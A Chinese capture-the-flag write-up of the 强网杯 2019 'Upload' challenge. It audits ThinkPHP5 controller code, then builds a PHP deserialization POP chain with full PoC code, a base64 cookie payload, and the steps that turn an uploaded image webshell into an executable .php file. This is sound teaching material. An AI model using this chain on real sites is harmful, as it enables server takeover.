


# 强网杯2019-Upload

参考链接：https://kinsey973.github.io/2024/08/18/%E5%BC%BA%E7%BD%91%E6%9D%AF-2019-Upload/

首先打开页面发现是一个登录注册页面，随便注册一个账号登录。



登录之后进到了一个文件上传页面，尝试上传一句话木马。先上传一个ptmuma.jpg文件。但是传完之后发现我们上传的文件的后缀名被改成了png，且可以看到路径和文件名都进行了重命名使用md5值。



进行目录扫描，扫出来一个www.tar.gz在根目录，下载下来发现是thinkphp5框架

我们在controller文件夹中发现几个php文件。

由于代码太多，只看重点。

Index.php

```
class Index extends Controller
{
    public function login_check(){
        $profile=cookie('user');
        if(!empty($profile)){
            $this->profile=unserialize(base64_decode($profile));
            $this->profile_db=db('user')->where("ID",intval($this->profile['ID']))->find();
            if(array_diff($this->profile_db,$this->profile)==null){
                return 1;
            }else{
                return 0;
            }
        }
    }
}
```

这里有存在一个反序列化点，并且反序列化的字符串是通过Cookie来传值的，是可控的。所以我们可以通过Cookie传值user=xxx来触发反序列化漏洞。

---

Profile.php

```
class Profile extends Controller
{
	    public function upload_img(){
        if($this->checker){
            if(!$this->checker->login_check()){
                $curr_url="http://".$_SERVER['HTTP_HOST'].$_SERVER['SCRIPT_NAME']."/index";
                $this->redirect($curr_url,302);
                exit();
            }
        }

        if(!empty($_FILES)){
            $this->filename_tmp=$_FILES['upload_file']['tmp_name'];
            $this->filename=md5($_FILES['upload_file']['name']).".png";
            $this->ext_check();
        }
        if($this->ext) {
            if(getimagesize($this->filename_tmp)) {
                @copy($this->filename_tmp, $this->filename);
                @unlink($this->filename_tmp);
                $this->img="../upload/$this->upload_menu/$this->filename";
                $this->update_img();
            }else{
                $this->error('Forbidden type!', url('../index'));
            }
        }else{
            $this->error('Unknow file type!', url('../index'));
        }
    }
}
```

在upload_image方法中的第三个if判断语句中有一个copy函数，将临时的文件复制成一个新文件，然后再将临时文件删除。而临时文件的文件名和新文件名都是类中的成员属性，所以我们如果能够触发反序列化漏洞可以自己修改临时文件名和文件名，将png文件改为php文件，这样就能getshell了。

```
    public function __get($name)
    {
        return $this->except[$name];
    }

    public function __call($name, $arguments)
    {
        if($this->{$name}){
            $this->{$this->{$name}}($arguments);
        }
    }
```

同样在Profile.php的class Profile中存在两个魔术方法，分别是\_\_get和\_\_call，这两个魔术方法一个是在调用对象中不存在的成员变量时触发，一个在调用对象中不存在的成员方法时触发。

---

Register.php

```
class Register extends Controller
{
	public function __destruct()
    {
        if(!$this->registed){
            $this->checker->index();
        }
    }
}
```

这里存在析构函数__destruct，能在反序列化时触发。当成员属性registed为false时，就会执行$this->checker->index();

---

**分析**

可以通过Register.php中的析构函数destruct，只要将registed赋值为false，再将Register类中的成员属性checker赋值为一个Profile类的对象，等于去调用不存在的成员方法Index，就能触发call魔术方法。然后if($this->{$name})会调用不存在的成员变量Index，从而触发get魔术方法，get魔术方法会返回$this->except[$name];，然后就会去执行$this->{$this->{$name}}($arguments);，我们只需要将get里的返回值$this->except[$name]的值改为img，然后将img的值改为upload_image就能在call里对upload_image方法进行调用。然后成功getshell。所以需要先改except = ['index' => 'img'];然后再改img = "upload_img";

通过上面的审计，可以将反序列化pop链写出来

```
Register::__destruct->Profile::__call->Profile::__get-->Profile::img_upload
```

构造poc。

**poc：**

```
<?php

namespace app\web\controller;
error_reporting(0);
class Profile
{
    public $checker;
    public $filename_tmp;
    public $filename;
    public $upload_menu;
    public $ext;
    public $img;
    public $except;


    public function __get($name)
    {
        return $this->except[$name];
    }

    public function __call($name, $arguments)
    {
        if($this->{$name}){
            $this->{$this->{$name}}($arguments);
        }
    }

}

class Register
{
    public $checker;
    public $registed;

    public function __destruct()
    {
        if(!$this->registed){
            $this->checker->index();
        }
    }

}

$profile = new Profile();
$profile->except = ['index' => 'img'];
$profile->img = "upload_img";
$profile->ext = "png";
$profile->filename_tmp = "./upload/76d9f00467e5ee6abc3ca60892ef304e/1905e3297318e07f689eeda3afb79dc7.png";
$profile->filename = "./upload/76d9f00467e5ee6abc3ca60892ef304e/1905e3297318e07f689eeda3afb79dc7.php";

$register = new Register();
$register->registed = false;
$register->checker = $profile;

echo urlencode(base64_encode(serialize($register)));
```

注意：这里的路径要按上传后的文件的路径来改。不是固定的

payload：

```
TzoyNzoiYXBwXHdlYlxjb250cm9sbGVyXFJlZ2lzdGVyIjoyOntzOjc6ImNoZWNrZXIiO086MjY6ImFwcFx3ZWJcY29udHJvbGxlclxQcm9maWxlIjo3OntzOjc6ImNoZWNrZXIiO047czoxMjoiZmlsZW5hbWVfdG1wIjtzOjc4OiIuL3VwbG9hZC83NmQ5ZjAwNDY3ZTVlZTZhYmMzY2E2MDg5MmVmMzA0ZS8xOTA1ZTMyOTczMThlMDdmNjg5ZWVkYTNhZmI3OWRjNy5wbmciO3M6ODoiZmlsZW5hbWUiO3M6Nzg6Ii4vdXBsb2FkLzc2ZDlmMDA0NjdlNWVlNmFiYzNjYTYwODkyZWYzMDRlLzE5MDVlMzI5NzMxOGUwN2Y2ODllZWRhM2FmYjc5ZGM3LnBocCI7czoxMToidXBsb2FkX21lbnUiO047czozOiJleHQiO3M6MzoicG5nIjtzOjM6ImltZyI7czoxMDoidXBsb2FkX2ltZyI7czo2OiJleGNlcHQiO2E6MTp7czo1OiJpbmRleCI7czozOiJpbWciO319czo4OiJyZWdpc3RlZCI7YjowO30%3D
```

先上传我们的1.png文件，注意要用GIF89a头才能绕过。然后在查看网页源码找到我们上传的文件路径，修改poc中的文件路径。

然后将得到的payload，在上传文件后的页面传入Cookie

```
Cookie：user=TzoyNzoiYXBwXHdlYlxjb250cm9sbGVyXFJlZ2lzdGVyIjoyOntzOjc6ImNoZWNrZXIiO086MjY6ImFwcFx3ZWJcY29udHJvbGxlclxQcm9maWxlIjo3OntzOjc6ImNoZWNrZXIiO047czoxMjoiZmlsZW5hbWVfdG1wIjtzOjc4OiIuL3VwbG9hZC83NmQ5ZjAwNDY3ZTVlZTZhYmMzY2E2MDg5MmVmMzA0ZS8xOTA1ZTMyOTczMThlMDdmNjg5ZWVkYTNhZmI3OWRjNy5wbmciO3M6ODoiZmlsZW5hbWUiO3M6Nzg6Ii4vdXBsb2FkLzc2ZDlmMDA0NjdlNWVlNmFiYzNjYTYwODkyZWYzMDRlLzE5MDVlMzI5NzMxOGUwN2Y2ODllZWRhM2FmYjc5ZGM3LnBocCI7czoxMToidXBsb2FkX21lbnUiO047czozOiJleHQiO3M6MzoicG5nIjtzOjM6ImltZyI7czoxMDoidXBsb2FkX2ltZyI7czo2OiJleGNlcHQiO2E6MTp7czo1OiJpbmRleCI7czozOiJpbWciO319czo4OiJyZWdpc3RlZCI7YjowO30%3D
```

然后访问`url/upload/76d9f00467e5ee6abc3ca60892ef304e/1905e3297318e07f689eeda3afb79dc7.php`

发现成功解析我们的一句话木马，然后用蚁剑连接在根目录下找到flag。


